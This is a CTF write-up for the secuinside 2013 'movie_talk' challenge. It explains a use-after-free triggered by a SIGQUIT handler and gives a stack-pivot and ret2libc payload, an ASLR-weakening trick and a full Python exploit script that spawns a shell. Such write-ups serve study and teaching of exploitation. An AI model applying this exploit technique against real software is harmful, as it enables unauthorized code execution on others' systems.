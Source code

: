 ```yaml
---
title: secuinside CTF 2013 quals movie_talk writeup
author: kelwin
layout: post
permalink: /secuinside-ctf-2013-quals-movie_talk-writeup/
categories:
  - CTF
  - writeup
---
```

The program is a local console application that maintain information about movies. It provides add, delete, list operations for users. We noticed that there is a SIGQUIT(number 3) handler to free all allocated data structure of movies, but it failed to clean the pointers of movies, which leads to a use after free bug. Data structure of a movie is as below:

    struct Movie
    {
      void *handler;
      char *name;
      int id;
      int rating;
      int rate
    };
    

For each movie, the memories for the `Movie` struct and `Movie->name` are allocated on the heap. First, we can add a movie. Then, we add the second. However, at the moment before the program prompt to get movie name, we send SIGQUIT and get the first movie structure freed. Then the program get back to receive the second movie&#8217;s name. If we input a string with a appropriate length, the allocated chunk for the second movie&#8217;s name could be the same as the first movie&#8217;s struct, which has just been freed. Luckily, the pointer of the first movie still points to the original chunk. Thus, the first 4 bytes of the second movie&#8217;s name will become the first movie&#8217;s handler, which can be used controlled.

We use an `add esp` gadget to migrate the stack to a very high position of the stack. Then we put a lot of common `ret2libc` combinations `system|system|"/bin/sh"|"/bin/sh"` in an environment variable, which is right in the higher part of the stack. If the `add esp` gadget migrate the stack top and hit the one of the `system` addresses in the environment variable, a shell will be spawned.

Of course, we used the `ulimit -s unlimited` trick to disable ASLR of the shared library. We get the precise address of `system` and `"/binsh"` from the libc library. The environment variable defined by us is as below:

    export EXPLOIT=$(python -c 'print "a"*9 + "\x80\xb2\x06\x40\x80\xb2\x06\x40\xf8\x2f\x19\x40\xf8\x2f\x19\x40" * 2000+"a"*15')
    

Python script for exploitation is as below:

    import sys
    import os
    import subprocess
    import signal
    import time
    p = subprocess.Popen("./movie_talk", stdin=subprocess.PIPE)
    # add $0x228c,%esp
    addesp = "\xed\x15\x14\x40"
    # add first movie
    p.stdin.write("1\n1\n1\n0\n")
    time.sleep(3);
    # add second movie
    p.stdin.write("1\n")
    time.sleep(1)
    # free all movies
    p.send_signal(3)
    p.stdin.write(addesp + "AAAABBB\n1\n0\n")
    time.sleep(3)
    # use after free
    p.stdin.write("3\n")
    time.sleep(1)
    # execute shell command
    p.stdin.write("cat key.txt\n")
    time.sleep(1)